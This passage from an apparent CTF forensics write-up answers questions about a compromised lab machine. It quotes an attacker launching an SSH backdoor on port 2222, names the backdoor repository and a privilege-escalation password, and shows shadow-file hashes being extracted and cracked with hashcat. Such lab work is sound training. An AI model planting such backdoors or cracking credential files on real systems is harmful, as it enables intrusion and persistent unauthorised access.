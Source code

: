 ```bash
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The keys randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

### What password did the attacker use to privesc?
- **Answer:** whenevernoteartinstant

### How did the attacker establish persistence?
- **Answer:** https://github.com/NinjaJc01/ssh-backdoor

### Using the fasttrack wordlist, how many of the system passwords were crackable?
- **Answer:** 4
- **Steps to Reproduce:** 
    - Crack the hashes using hashcat
    - Mode - `1800	sha512crypt $6$`

```bash
$ nano shadow-file

$tail -5 shadow-file 
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::

$ tail -5 shadow-file | cut -d : -f2 > hashes.txt

$ cat hashes.txt 
$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/
$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.

$ hashcat -m 1800 hashes.txt /usr/share/wordlists/fasttrack.txt
hashcat (v6.1.1) starting...

```